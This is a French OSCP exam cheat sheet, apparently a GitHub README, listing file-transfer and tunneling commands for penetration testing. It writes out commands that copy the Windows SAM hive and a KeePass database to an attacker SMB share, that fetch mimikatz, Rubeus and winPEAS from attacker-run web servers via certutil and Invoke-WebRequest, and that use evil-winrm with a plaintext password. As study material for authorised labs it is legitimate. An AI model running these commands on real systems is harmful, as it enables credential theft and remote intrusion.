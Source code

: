 
# Antisèche OSCP

https://github.com/swisskyrepo/PayloadsAllTheThings
<br /> https://www.exploit-db.com/
<br /> https://book.hacktricks.xyz/
<br /> https://www.revshells.com/

## Transfert / Tunneling

**SMB**

    impacket-smbserver smb dossier/ -smb2support -debug
    ...
    copy Passwords.kdbx \\192.168.50.100\smb\
    copy \\192.168.50.100\smb\Rubeus.exe .\Rubeus.exe

**Partage interne entre deux machines Windows**

    net share Partage=C:\Users\Tim /GRANT:Everyone,FULL
    ...
    net use * \\10.10.100.100\Partage /user:Tim Mdp123
    copy C:\Windows.old\Windows\System32\SAM Z:\SAM
    copy Z:\mimikatz.exe .\mimikatz.exe

**Web (Apache)**

    sudo systemctl start apache2
    sudo cp mimikatz.exe /var/www/html
    ...
    certutil.exe -urlcache -f http://192.168.50.100/mimikatz.exe mimikatz.exe

**Web (Python 3)**

    python -m http.server 8000
    ...
    Invoke-WebRequest -Uri http://192.168.50.100:8000/mimikatz.exe -Outfile ./mimikatz.exe

**Web (Python 2)**

    python2.7 -m SimpleHTTPServer 8000
    ...
    Invoke-WebRequest -Uri http://192.168.50.100:8000/mimikatz.exe -Outfile ./mimikatz.exe

**SSH**

    sudo systemctl start ssh
    ...
    scp ./fichier_local timothe@192.168.50.100:/home/dossier
    scp timothe@192.168.50.100:/home/dossier/fichier_distant ./
    
**Evil-WinRM**

    sudo proxychains evil-winrm -u Tim -p 'Mdp123' -i 10.10.100.100
    upload /var/www/html/winpeas.exe
    ...
    download resultat.txt
